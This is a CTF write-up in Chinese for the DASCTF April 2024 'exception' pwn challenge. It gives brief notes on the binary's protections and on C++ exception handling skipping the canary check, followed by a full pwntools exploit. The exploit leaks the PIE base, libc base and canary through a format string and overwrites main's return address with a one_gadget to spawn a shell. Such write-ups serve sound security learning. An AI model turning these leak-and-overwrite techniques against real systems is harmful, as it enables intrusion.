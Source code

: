 ```yaml
---
title: DASCTF 4月赛 - exception 
date: 2024/4/21 23:54:00
tags:
    - c++ exception
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.31-0ubuntu9.15|

## 解题思路

考察了C++的异常处理，由于给的信息较多，不一定需要利用异常机制

这道题中，`vuln`中的异常抛出后会被`main`中的catch接住，执行完毕后返回`main`，
因此可以保持`vuln`上内容不变，而写`main`函数的返回地址为OneGadget拿shell

另外，throw时不会对当前函数的stack frame上的Canary做检查

> 在dynamic_or_static上花的时间太久了，这道题没时间做了

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './exception'

def payload(lo:int):
    global sh
    if lo:
        if lo & 2:
            sh = gdb.debug(EXE, 'b if $rdi == $rebase(0x2086)')
        else:
            sh = process(EXE)
    else:
        sh = remote('', 9999)
    elf = ELF(EXE)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.31-0ubuntu9.15_amd64/libc.so.6')
    mainArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2

    sh.sendlineafter(b'name\n', b'%15$p,%12$p,%7$p')
    main, arena, canary = map(lambda x: int(x, 16), sh.recvline().decode().split(','))
    pieBase = main - elf.symbols['main']
    libcBase = arena - mainArena
    sh.recvuntil(b'stack\n')
    rsp = int(sh.recvline(), 16)
    success(GOLD_TEXT(f'Leak PIE base: {hex(pieBase)}'))
    success(GOLD_TEXT(f'Leak libc base: {hex(libcBase)}'))
    success(GOLD_TEXT(f'Leak canary: {hex(canary)}'))
    success(GOLD_TEXT(f'Leak rsp: {hex(rsp)}'))
    
    oneGadget = libcBase + 0xe3b04
    # after throw the control flow goes back to main, so we mod ret addr at main
    sh.send(b'0'*0x70 + p64(rsp + 0xa0) + p64(pieBase + elf.symbols['main'] + 168) + # leave rbp and ret addr unchanged
            p64(0) + p64(canary)*4 + p64(oneGadget))

    sh.clean()
    sh.interactive()
```
